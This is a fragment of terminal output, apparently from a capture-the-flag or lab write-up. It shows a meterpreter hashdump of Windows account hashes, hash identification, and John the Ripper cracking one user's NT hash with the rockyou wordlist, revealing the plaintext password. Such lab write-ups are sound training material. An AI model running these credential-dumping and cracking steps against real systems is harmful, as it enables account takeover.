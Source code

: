 meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
---

hash-identifier
HASH: ffb43f0de35be4d9917ac0cc8ad57f8d

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))
---

sudo john --format=NT --rules --wordlist=/usr/share/wordlists/rockyou.txt hashes
Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (NT [MD4 256/256 AVX2 8x3])
Press 'q' or Ctrl-C to abort, almost any other key for status
                 (Administrator)
alqfna22         (Jon)
2g 0:00:00:04 DONE (2020-05-27 14:54) 0.4889g/s 2493Kp/s 2493Kc/s 2495KC/s alr19882006..alpusidi
Warning: passwords printed above might not be all those cracked
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed

